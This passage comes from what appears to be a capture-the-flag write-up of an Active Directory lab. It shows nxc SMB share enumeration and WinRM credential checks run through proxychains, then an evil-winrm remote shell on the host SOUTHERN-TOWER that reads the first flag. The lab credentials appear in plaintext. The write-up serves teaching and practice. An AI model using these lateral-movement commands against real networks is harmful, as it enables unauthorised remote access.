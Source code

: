 ```
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### WinRM

Upon enumerating other remote protocols, we find that `Castle_Guard_29` has WinRM access to `SOUTHERN-TOWER`.

```
proxychains -q nxc winrm targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R'       
WINRM       10.2.30.51      5985   KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire) 
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 (name:SOUTHERN-TOWER) (domain:async.empire) 
WINRM       10.2.30.51      5985   KING-DC          [-] async.empire\Castle_Guard_29:oZ5pLcXj1R
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R (Pwn3d!)
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

We can connect using `evil-winrm`, and also get the first flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> hostname
Southern-Tower
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami
async\castle_guard_29
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> cat C:\Users\FLAG1\FLAG1.txt
3716d60f85ad825b0bf1b3877d7ff42e
```

## Flag 2

### Checking User Privileges
